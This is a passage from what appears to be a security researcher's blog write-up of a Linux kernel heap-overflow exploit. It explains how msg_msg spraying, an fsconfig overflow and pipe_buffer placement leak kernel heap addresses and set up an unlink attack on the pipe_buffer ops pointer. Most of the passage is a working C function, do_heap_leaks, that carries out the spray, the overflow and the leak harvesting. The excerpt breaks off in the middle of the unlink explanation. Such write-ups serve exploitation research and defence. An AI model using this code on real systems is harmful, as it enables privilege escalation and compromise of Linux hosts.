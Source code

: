[![](https://blogger.googleusercontent.com/img/a/AVvXsEjBHPc32Ssq1tcbZBwjFaxSFqDSlfzdyEwsR5WdYd2FboUBFQ4NaSjyYwd89pvsnrUyQKmNDq71BTTIOICfKbKhL8_Vrt2vXzFZlLPW4zb20Cn95yTa2KclDX8odOBkwRIwdmKaRvdX4kuLiFdCpV60gdMlsY9V0jCIJnWnI4Wn4qTCxMnEvNMqvU_hwQ=w640-h346)](https://blogger.googleusercontent.com/img/a/AVvXsEjBHPc32Ssq1tcbZBwjFaxSFqDSlfzdyEwsR5WdYd2FboUBFQ4NaSjyYwd89pvsnrUyQKmNDq71BTTIOICfKbKhL8_Vrt2vXzFZlLPW4zb20Cn95yTa2KclDX8odOBkwRIwdmKaRvdX4kuLiFdCpV60gdMlsY9V0jCIJnWnI4Wn4qTCxMnEvNMqvU_hwQ=s1115)

You can also figure out which `msg_queue` those leaked addresses belonged to based on the contents in msg_msg data, so you can seletively free them and rely on LIFO to place objects there in advance. I replaced the kmalloc-1k one with a `pipe_buffer` object while kmalloc-512 already had stack pivot gadgets ready.

[![](https://blogger.googleusercontent.com/img/a/AVvXsEi-uVg41L4yTKo99UElvhQjmL57jY0YaWCKYZZCHCqwfjYpTfvKyCBbDe7yt0SFLvNdwi6xWnnjZP3lL_81sxZ8mjWqLAVCx-WCpwRQdmLNiBv0dkHrwSUM-xGxjew2yOSm56nEXe8TnE2Gmp_d3K1uHdIC43005moylzd1_RYjGjYNmMhKMTw_QAxJnQ=w640-h344)](https://blogger.googleusercontent.com/img/a/AVvXsEi-uVg41L4yTKo99UElvhQjmL57jY0YaWCKYZZCHCqwfjYpTfvKyCBbDe7yt0SFLvNdwi6xWnnjZP3lL_81sxZ8mjWqLAVCx-WCpwRQdmLNiBv0dkHrwSUM-xGxjew2yOSm56nEXe8TnE2Gmp_d3K1uHdIC43005moylzd1_RYjGjYNmMhKMTw_QAxJnQ=s1118)

The following snippet code should lead to a heap leak: 

double_heap_leaks do_heap_leaks() { uint64_t kmalloc_1024 = 0; uint64_t kmalloc_512 = 0; char pivot_spray[0x2000] = {0}; uint64_t *pivot_spray_ptr = (uint64_t *)pivot_spray; double_heap_leaks leaks = {0}; int linked_msg[256] = {0}; char pat[0x1000] = {0}; char buffer[0x2000] = {0}, recieved[0x2000] = {0}; msg *message = (msg *)buffer; for (int i = 0; i < 255; i++) {linked_msg[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); memset(pivot_spray, 0x0, sizeof(pivot_spray)); pivot_spray_ptr[0] = 1; for (int i = 0; i < 10;i ++) { pivot_spray_ptr[i+1] = stack_pivot; } send_msg(linked_msg[i], pivot_spray, 0x200 - 0x30, 0); memset(buffer, 0x1+i, sizeof(buffer)); message->mtype = 2; send_msg(linked_msg[i], message, 0x40 - 0x30, 0); message->mtype = 3; send_msg(linked_msg[i], message, 0x400 - 0x30 - 0x40, 0); } int size = 0x1038; int targets[H_SPRAY] = {0}; for (int i = 0; i <H_SPRAY; i++) { memset(buffer, 0x41+i, sizeof(buffer)); targets[i] = make_queue(IPC_PRIVATE, 0666 | IPC_CREAT); send_msg(targets[i], message, size - 0x30, 0); } get_msg(targets[0], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR); puts("[*] Opening ext4 filesystem"); fd = fsopen("ext4", 0); if (fd < 0) { puts("fsopen: Remember to unshare"); exit(-1); } strcpy(pat, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"); for (int i = 0; i < 117; i++) { fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); } stuff_4k(16); puts("[*] Overflowing..."); pat[21] = '\x00'; char evil[] = "\x60\x19"; fsconfig(fd, FSCONFIG_SET_STRING, "\x00", pat, 0); fsconfig(fd, FSCONFIG_SET_STRING, "\x00", evil, 0); puts("[*] Done heap overflow"); size = 0x1960; puts("[*] Receiving corrupted size and leak data"); for (int i = 0; i <H_SPRAY; i++) { get_msg(targets[i], recieved, size, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR); for (int j = 0x202; j < 0x202 + (0x1960-0x1010) / 8; j++) { uint64_t *dump = (uint64_t *)recieved; if (dump[j] == 0x2 && dump[j+1] == 0x10 && dump[j+4] == dump[j+5]) { kmalloc_1024 = dump[j-2]; kmalloc_512 = dump[j-1]; uint8_t target_idx = (dump[j+4] & 0xff) - 1; get_msg(linked_msg[target_idx], recieved, 0x400 - 0x30, 3, IPC_NOWAIT | MSG_NOERROR); for (int k = 0; k <PIPES; k++) { if (pipe(pipefd[k]) < 0) { perror("pipe failed"); exit(-1); } write(pipefd[k][1], "pwnage", 7); } break; } } if (kmalloc_1024 != 0) { break; } } close(fd); if (!kmalloc_1024) { puts("[X] No leaks, trying again"); stuff_4k(16); return leaks; } leaks.kmalloc_1024_leak = kmalloc_1024; leaks.kmalloc_512_leak = kmalloc_512; return leaks; }

With this information, we can attempt to gain control of the `pipe_buffer` ops table pointer.

As I mentioned earlier, my first approach was to perform an unlink attack. In `do_msgrcv`, the [unlink operation](https://elixir.bootlin.com/linux/v5.7/source/ipc/msg.c#L1153) occurs when `MSG_COPY` is not specified. When this occurs, the big picture of what occurs is `victim->prev->next = victim->next` and `victim->next->prev = victim->prev`. If you set up `victim->prev` to the location of the ops table pointer, and set `victim->next` to an address in your kmalloc-512 `msg_msg` data buffer, you should be able to change the ops table pointer to point to your malicious msg buffer. Basically a classic unlink attack as the diagram below shows:
